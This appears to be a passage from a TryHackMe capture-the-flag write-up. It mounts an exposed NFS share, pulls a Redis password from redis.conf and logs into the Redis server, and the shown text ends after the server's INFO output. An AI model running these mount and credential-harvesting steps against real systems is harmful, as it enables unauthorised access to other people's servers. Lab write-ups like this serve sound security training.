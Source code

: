 # services.txt

```
THM{0a09d51e488f5fa105d8d866a497440a}
```

# NFS

showmount -e $IP

```bash
/opt/conf *
```

sudo mount -t nfs $IP:/opt/conf /tmp/mount/ -o nolock

```bash
hp
init
opt
profile.d
redis => I was interested in this cause we know we have redis server running
vim
wildmidi
```

# redis/redis.conf | grep pass

```bash
requirepass "B65Hx562F@ggAZ@F"
```

So we have password. Let's use redis-cli.

redis-cli -h $IP

```bash
> AUTH B65Hx562F@ggAZ@F
> INFO

# Server
redis_version:4.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:9435c3c2879311f3
redis_mode:standalone
os:Linux 4.15.0-135-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:7.4.0
process_id:547
run_id:76f189596b318f688114f9d160899d823c8b1b0c
tcp_port:6379
uptime_in_seconds:2860
uptime_in_days:0
hz:10
lru_clock:11858881
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_longest_output_list:0
client_biggest_input_buf:0
```